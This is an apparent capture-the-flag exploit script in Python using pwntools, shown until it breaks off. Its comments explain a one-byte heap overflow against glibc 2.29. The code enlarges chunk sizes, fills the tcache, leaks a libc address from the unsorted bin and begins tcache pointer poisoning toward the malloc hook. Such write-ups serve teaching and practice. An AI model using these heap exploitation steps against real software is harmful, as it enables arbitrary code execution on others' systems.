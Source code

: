 ```python

    # The basic exploit primitive for this challenge is to use the one byte overflow to overwrite the size field
    # of a chunk, such that when we free it we can malloc it at a larger size, allowing us to overwrite even more
    # chunk metadata. We can use this technique for both leaking a libc pointer and overwriting the malloc hook.
    #
    # The binary let's us allocate at two sizes: 0xf8 and 0x178. So we'll need to change the size of an 0xf8
    # chunk to 0x178.
    #
    # The libc used for the challenge has a one gadget, for which we'll need to leak a libc pointer before we
    # can use. Chunks in the unsorted bin are doubly circularly linked and initially, the head of the unsorted
    # bin points into the main arena, which is inside libc. If we free a chunk into the unsorted bin, a main
    # arena address will be written into that chunks metadata. Using our chunk size expansion primitive, we can
    # overflow right up to the edge of this address. Then, when we show the now larger chunk, the main arena
    # address will also be printed.

    # As this is libc 2.29, we need to be aware of tcache. Before we can free into the unsorted bin, we have to
    # fill up the tcache bins first. There's only 7 of them, so it's easy to fill them up. We should end up with
    # a few chunks in the unsorted bin.
    for i in range(10):
        malloc(challenge, 0xf8, pwn.cyclic(0x20))
    for i in range(10):
        free(challenge, i)

    # Now we're going to perform the leak described above. In practice, the main arena address that we leak ends
    # with a null byte, which prevents it from being shown using the `Show` command. We'll fix that by
    # overwriting it with a non-null byte.
    malloc(challenge, 0xf8, pwn.cyclic(0x20))
    malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Change the chunk size from 0x100 to 0x180.
    free(challenge, 0)
    null_byte_overwrite = 0x41
    payload = pwn.cyclic(0x100) + pwn.p8(null_byte_overwrite) # Overwrite the pesky null byte.
    malloc(challenge, 0x178, payload) # Allocate right up to the edge of the main arena address.
    raw_leak_data = show(challenge, 0)
    leaked_address = pwn.u64(raw_leak_data[-6:] + "\x00\x00") - null_byte_overwrite
    pwn.log.info("Leaked libc address: {}".format(hex(leaked_address)))
    #libc_base_address = leaked_address - libc.sym["main_arena"] - 0x60 # my libc has debug symbols
    libc_base_address = leaked_address - 0x1e4c00 # Offset grabbed using GDB.
    pwn.log.info("Libc base address: {}".format(hex(libc_base_address)))

    # We can use the same chunk size expansion technique to gain code execution, but this time we'll be focusing
    # on the tcache bin. Tcache bins are just singly linked lists and they have very few corruption checks.
    # We'll overwrite the "next" pointer in a free tcache chunk using our overflow technique, and then our
    # arbitrary address will be returned after a couple of mallocs.
    malloc(challenge, 0xf8, pwn.cyclic(0x20)) # Chunk A.
    malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Chunk B. Change the chunk size from 0x100 to 0x180.
    free(challenge, 2) # Free chunk A.
```
